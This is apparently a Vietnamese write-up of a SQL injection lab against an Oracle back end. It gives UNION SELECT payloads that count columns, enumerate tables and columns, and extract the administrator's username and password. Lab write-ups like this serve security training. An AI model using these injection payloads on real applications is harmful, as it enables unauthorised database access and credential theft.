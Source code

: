 Sử dụng truy vấn **' UNION+SELECT 'tuong','trung' FROM dual--** xác định được Db có 2 trường dữ liệu.
Bảng DUAL là bảng một hàng một cột đặc biệt được hiển thị theo mặc định trong tất cả các cài đặt cơ sở dữ liệu của Oracle
<br>
Tiếp đó ta sử dụng truy vấn **' UNION+SELECT table_name,NULL FROM all_tables--** để lấy tên các bảng
<br> Ta có 1 số bảng nghi ngờ như sau: <br>
![image](https://user-images.githubusercontent.com/62832067/150348055-fa7b2774-ffd9-4de8-a6c4-f61f67b42cb6.png)
<br> Lấy tên cột của từng bảng bằng truy vấn sau và ta xác định được bảng chứa 2 cột **USERNAME** và **PASSWORD** là bảng **USERS_KWPONQ**  
<br> **'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KWPONQ'--**
![image](https://user-images.githubusercontent.com/62832067/150348356-32691431-326d-44c3-889d-2448ebc20fc6.png)
<br> Sau khi có tên 2 cột chứa Username và Pass ta thực hiện lấy dữ liệu của 2 cột đó **' UNION SELECT USERNAME_VTWCVL,PASSWORD_XGKINY FROM USERS_KWPONQ--**
<br> Kết quả ta có được Password của tài khoản administator
![image](https://user-images.githubusercontent.com/62832067/150348722-4a064de2-afac-4df7-9481-9197501ad36d.png)


